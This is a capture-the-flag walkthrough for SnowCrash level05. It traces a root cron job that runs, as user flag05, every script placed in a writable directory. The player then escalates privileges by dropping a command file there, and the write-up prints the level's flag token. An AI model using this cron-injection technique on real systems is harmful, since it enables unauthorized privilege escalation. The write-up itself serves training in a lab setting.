 Level 05
========

*	When we login user `level05`, we get this message
	```console
	You have new mail.
	```
*	Looking into the `/var/mail` dir we get this file
	```console
	level05@SnowCrash:~$ ll /var/mail
	total 4
	-rw-r--r--+ 1 root mail 58 Feb  2 12:20 level05
	level05@SnowCrash:~$ cat /var/mail/level05 
	*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
	```
	It definitely is a cron job running every 2 minutes.
*	Looking through the computer files we can also find this one:
	```console
	level04@SnowCrash:~$ find / -group flag05 2>/dev/null | grep -v find | grep -v proc | grep -v  rofs
	/usr/sbin/openarenaserver
	```
*	This is a simple shell program (the same one that is running with the cron job):
	```shell
	#!/bin/sh

	for i in /opt/openarenaserver/* ; do
			(ulimit -t 5; bash -x "$i")
			rm -f "$i"
	done
	```
	It seems that this code executes every other files (with a limited time given by ulimit) with bash in a certain repository and then deletes the file
*	When we look at the rights of `/opt/openarenaserver` we can see that it has extended permissions
*	Executing the program ourself won't work since we are not user `flag05` so we will need to wait two minutes
*	All we had to do was creating a file witht he command inside and wait
	```console
	level05@SnowCrash:~$ echo "getflag > /tmp/flag.txt" > /opt/openarenaserver/flag
	level05@SnowCrash:~$ cat /tmp/flag.txt
	Check flag.Here is your token : viuaaale9huek52boumoomioc
	```